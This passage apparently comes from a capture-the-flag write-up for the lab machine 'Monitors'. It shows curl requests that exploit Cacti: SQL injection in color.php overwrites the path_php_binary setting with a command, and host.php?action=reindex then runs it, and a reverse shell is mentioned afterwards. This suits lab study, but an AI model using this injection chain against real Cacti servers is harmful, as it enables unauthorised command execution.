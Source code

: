 And `path_php_binary` is just a variable in cacti config file which stored php binary location. If we replace this value with any system command, it get executed by the server.

Set value in `path_php_binary`
```bash
curl -s -X $'GET' \
    -b $'Cacti=koa9gglffasaklp5bfefl82t6s; cross-site-cookie=bar' \
    $'http://cacti-admin.monitors.htb/cacti/color.php?action=export&header=false&filter=1\')+UNION+SELECT+1,2,3,4,5,6,7;update+settings+set+value=\'ping+-c+2+10.10.14.187;\'+where+name=\'path_php_binary\';--+-'
```

Verify `path_php_binary` value.
```bash
curl -s -X $'GET' \
    -b $'Cacti=koa9gglffasaklp5bfefl82t6s; cross-site-cookie=bar' \
    $'http://cacti-admin.monitors.htb/cacti/color.php?action=export&header=false&filter=1\')+UNION+SELECT+1,name,value,4,5,6,7+from+settings+where+name=\'path_php_binary\';--+-'
```

![](/assets/img/posts/monitors/set-command.png)

Then call `host.php?action=reindex` which get the `shell_exec` called with the `path_php_binary`.
```bash
curl -s -X $'GET' \
    -b $'Cacti=koa9gglffasaklp5bfefl82t6s; cross-site-cookie=bar' \
    $'http://cacti-admin.monitors.htb/cacti/host.php?action=reindex'
```

![](/assets/img/posts/monitors/cacti-rce.png)

reverse shell with exploit script.
